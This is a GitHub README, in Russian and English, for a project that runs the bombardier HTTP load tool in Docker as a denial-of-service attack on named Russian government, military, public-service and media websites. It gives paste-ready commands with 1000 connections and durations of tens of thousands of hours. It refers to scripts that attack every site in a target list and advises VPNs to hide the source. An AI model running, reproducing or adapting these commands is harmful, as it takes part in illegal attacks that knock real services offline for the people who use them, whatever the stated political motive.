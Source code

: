 # bombardier
Fight agains propoganda

# If you have kubertnetes cluster `./run_all_kuber.sh`
easiest way 

`docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l http://kremlin.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://mil.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l http://www.scrf.gov.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://ach.gov.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://epp.genproc.gov.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://www.gosuslugi.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://www.1tv.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://mid.ru`
<br>

# Инструкция для пользователей Windows и Mac: 
1. Установить Docker: https://www.docker.com/products/docker-desktop 
2. Запустить докер и убедиться, что Docker Started 
3. Зайти сюда https://github.com/almerico/bombardier/blob/main/README.md 
4. Для лучшего результата используйте ВПН and (
<br>Psiphon
<br>Secure VPN
<br>Proton VPN 
<br>SurfShark
or
<br>Clear VPN 
<br>Proton VPN
<br>Nord VPN)

5. Найти в программах Windows Command Prompt и запустить от имени Администратора 
6. Запустить столько отдельных CMD консолей, сколько вы собираетесь запускать скриптов (каждая строчка - скрипт) 
7. Запустить все цели из resources.txt для виндовс из Консли run_windows.bat для Linux/Mac ./run_all_docker.sh для целей из resources.txt (или ./run_all_docker.sh файл-с-целями)
8. Для выполнения с конкретными целями - Скопировать скрипт (например docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l http://kremlin.ru) и нажать энтер 
9. Убедиться, что процесс пошёл 
10. Ждать падения рашки


# Instruction for Windows and Mac: 
1. Install Docker: https://www.docker.com/products/docker-desktop (For mac please pay attention if you download version for the correct chip) 
2. Launch Docker and make sure that Docker is running 
3. Go here https://github.com/almerico/bombardier/blob/main/README.md 
4. For best result use VPN(
<br>Psiphon
<br>Secure VPN
<br>Proton VPN 
<br>SurfShark
or
<br>Clear VPN 
<br>Proton VPN
<br>Nord VPN)
5. Find in application Windows Command Prompt or Terminal for Mac and launch as an admin. 
6. run all aims from resources.txt for winodws - `run_windows.bat` for Linux/Mac `./run_all_docker.sh ` for resources.txt  or ( .`/run_all_docker.sh your_aim_file`)
7. If you want select aims mainally . `docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l https://mid.ru` Open as many separate CMD consoles as many scripts you are going to launch (each line – one script) 
8. Make sure that the process started  
9. Wait till russia fall
